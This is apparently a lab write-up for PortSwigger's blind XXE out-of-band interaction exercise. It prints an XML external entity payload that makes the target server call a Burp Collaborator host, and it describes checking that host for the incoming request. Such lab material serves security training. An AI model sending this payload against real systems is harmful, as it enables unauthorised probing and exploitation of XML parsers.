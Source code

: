 # Lab: Blind XXE with out-of-band interaction

**Link**: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

**Solution**:
Two solutions

1- By using your own server 

just put your link and observe if there any requests have received

2- By using Burp Collaborator

<p align="center" width="100%">
  <img src="image1.png" width="800" hight="500"/>
</p>

Insert the URL into the payload
```xml
<!DOCTYPE foo [
<!ENTITY test SYSTEM "http://jpcqdakp0a8wgyp718gtwgv07rdi1bp0.oastify.com" >
]>
```

<p align="center" width="100%">
  <img src="image2.png" width="800" hight="500"/>
</p>

It gives you error and didn’t show any results but if you observe your server for any requests have received

<p align="center" width="100%">
  <img src="image3.png" width="800" hight="500"/>
</p>


<p align="center" width="100%">
  <img src="image4.png" width="800" hight="500"/>
</p>

